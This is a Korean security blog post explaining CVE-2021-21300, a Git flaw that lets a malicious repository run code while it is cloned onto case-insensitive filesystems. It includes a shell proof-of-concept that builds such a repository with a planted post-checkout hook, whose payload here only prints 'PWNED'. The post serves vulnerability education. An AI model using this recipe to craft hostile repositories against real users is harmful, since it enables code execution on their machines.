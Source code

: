 ```yaml
---
title: "[하루한줄] CVE-2021-21300: Git의 저장소 clone 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, git, rce]
categories: [1day1line]
date: 2021-03-23 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[git: malicious repositories can execute remote code while cloning](https://www.openwall.com/lists/oss-security/2021/03/09/3)

## Target

- Git(2.14.2.windows.1에서 테스트됨)

## Explain

오픈소스 버전 관리 시스템인 Git에서 원격 저장소를 clone 하는 도중 원격 코드 실행이 가능한 취약점이 발견되어 관련 세부 정보가 공개되었습니다.



취약점의 트리거 조건은 다음과 같습니다.

- 타겟 시스템이 NTFS와 같이 대소문자를 구분하지 않고, 심볼릭 링크를 지원해야 합니다.(Windows 및 macOS의 기본 파일 시스템)

- Git LFS와 같이 clean 혹은 smudge 필터가 전역적으로 구성되어있어야 합니다.

  

악성 저장소를 생성하는 PoC는 다음과 같습니다.

```bash
#!/bin/sh

  git init delayed-checkout &&
  (
  	cd delayed-checkout &&
  	echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \\
  		>.gitattributes &&
  	mkdir A &&
  	printf '#!/bin/sh\\n\\necho PWNED >&2\\n' >A/post-checkout &&
  	chmod +x A/post-checkout &&
  	>A/a &&
  	>A/b &&
  	git add -A &&
  	rm -rf A &&
  	ln -s .git/hooks a &&
  	git add a &&
  	git commit -m initial
  )
```

1. 임의 코드를 실행하는 악성 파일인 `A/post-checkout`이 저장소에 추가된 후 제거되면 Git 캐시에 남습니다. 이후 `./git/hooks`의 심볼릭 링크 `a`를 생성합니다.
   
   - git hooks - 특정 이벤트에 실행되는 스크립트
   
2. 타겟이 대소문자를 구분하지 않는 파일 시스템이라면 해당 저장소를 clone 할 때 `a`와 `A`를 구분하지 못해 `./git/hooks/post-checkout` 파일이 Git 캐시에 저장된 악성파일인 `A/post-checkout` 로 대체됩니다.

3. git hooks에 의해 `post-checkout`가 실행되고 `post-checkout`에 작성된 임의 코드가 실행됩니다.

   


![](2021-03-23/image.png)

## Reference
POC - https://github.com/Maskhe/CVE-2021-21300